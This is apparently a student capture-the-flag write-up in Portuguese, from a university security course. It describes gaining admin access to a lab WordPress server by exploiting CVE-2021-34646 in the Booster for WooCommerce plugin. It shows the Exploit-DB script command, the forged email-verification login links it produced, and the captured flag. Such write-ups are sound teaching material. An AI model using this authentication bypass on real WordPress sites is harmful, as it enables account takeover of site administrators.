


# CTF 4 - Common Vulnerabilities and Exposures (CVE)

## **Objetivo:** Fazer login como administrador num servidor wordpress utilizando uma CVE com exploit conhecido.

- Ao aceder ao servidor de wordpress disponibílizado, fomos procurar os plugins utilizados encontrando uma vulnerabilidade no **Booster for WooCommerce plugin**,identificando a seguinte CVE, correspondente `a flag do desafio 1:

> CVE-2021-34646

- Após pesquisar na plataforma **Exploit Database**,encontramos um programa que nos permitia explorar a CVE encontrada anteriormente.

> https://www.exploit-db.com/exploits/50299

- Corremos o programa com o link onde esta hospedado o servidor e o valor **'1'** que usualmente se refere ao admin
>python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1

```c
[11/24/21]seed@VM:~/.../CTF4$ python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Wed, 24 Nov 2021 22:25:04 GMT
Timestamp (unix): 1637792704

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 9a8aea2dd67916a2fc4ab6c68b0863af:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWE4YWVhMmRkNjc5MTZhMmZjNGFiNmM2OGIwODYzYWYifQ

#1 link for hash bdcf09def76ec02f8e547579f4e2eb3b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYmRjZjA5ZGVmNzZlYzAyZjhlNTQ3NTc5ZjRlMmViM2IifQ

#2 link for hash 0b35d563f134b6888e37eed49b643c13:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMGIzNWQ1NjNmMTM0YjY4ODhlMzdlZWQ0OWI2NDNjMTMifQ

```
- Com o 1º link obtivemos:



- Depois de conseguir acesso ao servidor como admin seguimos o link fornecido para ter acesso `a flag



>flag{e4a98642cd1590231c2d2340ba531baf}